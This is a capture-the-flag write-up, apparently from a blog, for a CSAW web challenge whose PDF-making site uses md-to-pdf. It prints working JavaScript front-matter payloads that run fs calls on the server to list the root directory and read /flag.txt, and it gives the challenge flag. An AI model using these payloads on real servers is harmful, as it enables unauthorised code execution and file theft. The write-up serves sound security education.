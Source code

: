 ```yaml
---
title: "My Little Website"
date: 2022-09-12T14:28:16-04:00
draft: false
authors: ["CDT Daniel Chung"] 
tags: ["csaw", "web"]
---
```


Let's say, hypothetically, that you made a program without user sanization...

## Description

I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :)...

http://web.chal.csaw.io:5013/

### TL;DR

Server is powered by express and was using `md-to-pdf` for converting markdown to pdfs. A vulnerability exists for RCE within `md-to-pdf`, exploit and get flag.

### First Look

The first thing I did was fire off a Nikto scan, which shows that the server is powered by express. We now know that the backend is `nodejs`.

### Correct Path

Thankfully, no rabbit holes here. An extremely educated guess had me thinking that the server was using `md-to-pdf` to convert markdown into a pdf. [Googling](https://www.google.com/search?channel=fs&client=ubuntu&q=markdown+to+pdf+exploit) if there was an exploit managed to get me to find [this](https://github.com/simonhaenisch/md-to-pdf/issues/99) github issue, where `simonhaenisch` posted a possible exploit. 

```js
---js
{
    css: `body::before { content: "${require('fs').readdirSync('/').join()}"; display: block }`,
}
---
```

When testing this, I could see all the files in the application directory being output into the pdf. Changing the `readdirSync` to `readFileSync` as defined [here](https://www.geeksforgeeks.org/node-js-fs-readfilesync-method/) allows the pdf to show the flag encoded in decimal, and using a decimal to ascii converter we get the flag.

### Solve

```js
---js
{
    css: `body::before { content: "${require('fs').readFileSync('/flag.txt').join()}"; display: block }`,
}
---
```

### Flag

```
CTF{pdf_c0nt1nu3s_70_5uCK} 
```